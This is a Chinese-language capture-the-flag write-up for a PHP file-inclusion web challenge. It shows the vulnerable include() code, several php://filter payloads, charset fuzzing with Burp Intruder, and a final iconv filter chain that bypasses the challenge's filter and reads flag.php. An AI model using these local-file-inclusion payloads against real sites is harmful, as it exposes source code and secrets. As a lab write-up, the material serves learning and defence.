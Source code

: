 ```yaml
---
title: (CTF WP)文件包含 
date: 2023-03-17 08:13:16
keywords: 文件包含, 攻防世界文件包含, ctf, ctf wp
description: 本文是攻防世界 Web 题目文件包含的 Write Up，欢迎大家交流讨论。
---
```


## 题目介绍

这是攻防世界的一道 Web 题目，从题目描述和给出的源代码看，这是一个php的文件包含题目。

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

## WriteUp

看到有 include 函数，尝试了使用 php://filter 伪协议，做了下面几个尝试：

```php
# 做这个尝试的时候提示 do not hack ! 应该是对 read 做了过滤
?filename=php://filter/read=convert.base64-encode/resource=flag.php
# 使用这个尝试的时候，提示 you have use the right filter , but error usage
?filename=php://filter/convert.iconv.UTF-8.UTF-7/resource=index.php
```

尝试到这里的时候，停了下来。根据提示应该比较接近答案了，但是仍不知道突破口在什么地方。参考了前人的WP，才发现 iconv 过滤支持的编码格式很多，需要借助 Burpsuite 来尝试各类组合。

在 BP 中拦截请求后，将请求发送到 Intruder ，选择两个字符集做为参数。

从 PHP 官方文档中找到支持的所有字符集列表做为参数。

- UCS-4*
- UCS-4BE
- UCS-4LE*
- UCS-2
- UCS-2BE
- UCS-2LE
- UTF-32*
- UTF-32BE*
- UTF-32LE*
- UTF-16*
- UTF-16BE*
- UTF-16LE*
- UTF-7
- UTF7-IMAP
- UTF-8*
- ASCII*
- EUC-JP*
- SJIS*
- eucJP-win*
- SJIS-win*
- ISO-2022-JP
- ISO-2022-JP-MS
- CP932
- CP51932
- SJIS-mac (alias: MacJapanese)
- SJIS-Mobile#DOCOMO (alias: SJIS-DOCOMO)
- SJIS-Mobile#KDDI (alias: SJIS-KDDI)
- SJIS-Mobile#SOFTBANK (alias: SJIS-SOFTBANK)
- UTF-8-Mobile#DOCOMO (alias: UTF-8-DOCOMO)
- UTF-8-Mobile#KDDI-A
- UTF-8-Mobile#KDDI-B (alias: UTF-8-KDDI)
- UTF-8-Mobile#SOFTBANK (alias: UTF-8-SOFTBANK)
- ISO-2022-JP-MOBILE#KDDI (alias: ISO-2022-JP-KDDI)
- JIS
- JIS-ms
- CP50220
- CP50220raw
- CP50221
- CP50222
- ISO-8859-1*
- ISO-8859-2*
- ISO-8859-3*
- ISO-8859-4*
- ISO-8859-5*
- ISO-8859-6*
- ISO-8859-7*
- ISO-8859-8*
- ISO-8859-9*
- ISO-8859-10*
- ISO-8859-13*
- ISO-8859-14*
- ISO-8859-15*
- ISO-8859-16*
- byte2be
- byte2le
- byte4be
- byte4le
- BASE64
- HTML-ENTITIES (alias: HTML)
- 7bit
- 8bit
- EUC-CN*
- CP936
- GB18030
- HZ
- EUC-TW*
- CP950
- BIG-5*
- EUC-KR*
- UHC (alias: CP949)
- ISO-2022-KR
- Windows-1251 (alias: CP1251)
- Windows-1252 (alias: CP1252)
- CP866 (alias: IBM866)
- KOI8-R*
- KOI8-U*
- ArmSCII-8 (alias: ArmSCII8)

![image-20230317081611716](ctf-wp-001-fileinclude/image-20230317081611716.png)

最后成功找到可以绕过过滤的字符集。

```php
?filename=php://filter/convert.iconv.EUC-JP%2a.UCS-4*/resource=flag.php
```

## 参考资料

1. [Multibyte String](https://www.php.net/manual/en/mbstring.supported-encodings.php)
1. [详解php://filter以及死亡绕过](https://blog.csdn.net/woshilnp/article/details/117266628)
1. [泰山杯：文件包含](https://blog.csdn.net/qq_36618918/article/details/128674773)

